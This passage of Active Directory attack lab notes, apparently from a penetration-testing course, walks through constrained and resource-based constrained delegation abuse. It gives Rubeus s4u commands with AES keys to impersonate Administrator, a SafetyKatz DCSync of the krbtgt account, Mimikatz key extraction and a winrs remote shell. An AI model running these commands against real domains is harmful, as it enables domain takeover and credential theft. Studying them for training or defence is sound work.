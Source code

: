 We can use the following command (We are requesting a TGT and TGS in a single command):
~~~
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator/msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
~~~

After injection, we can run DCSync:

~~~
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
~~~

#### Resource-based Constrained Delegation

- Instead of SPNs on msDs-AllowedToDelegatTo on the front-end service like web service, access in this case is controlled by security descriptor of **msDS-AllowedToActOnBehalfOfOtherIdentity** (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service like SQL Server service.
- That is the resource/service administrator can configure this delegation whereas for other types, **SeEnableDelegation privileges are required** which are, by default, available only to Domain Admins.


**To abuse RBCD in the most effective form, we just need two privileges**:

1. Write permissions over the target service or object to configure **msDS-AllowedToActOnBehalfOfOtherIdentity**.
2. Control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain **-ms-DS-MachineAccountQuota is 10** for all domain users)

We already have admin privileges on student VMs that are domain joined machines.

Enumeration would show that the user _ciadmin_ has Write permissions over the dcorp-mgmt machine!

~~~
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
~~~

Using the ActiveDirectory module, configure RBCD on dcorp-mgmt for student machines:

~~~
$comps = 'dcorp-student1$','dcorp-student2$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
~~~

Now, let’s get the privileges of dcorp-studentx$ by extracting its AES keys:

~~~
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
~~~

Use the AES key of dcorp-studentx$ with Rubeus and access dcorp-mgmt as ANY user we want:

~~~
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
~~~

~~~
winrs -r:dcorp-mgmt cmd.exe
~~~
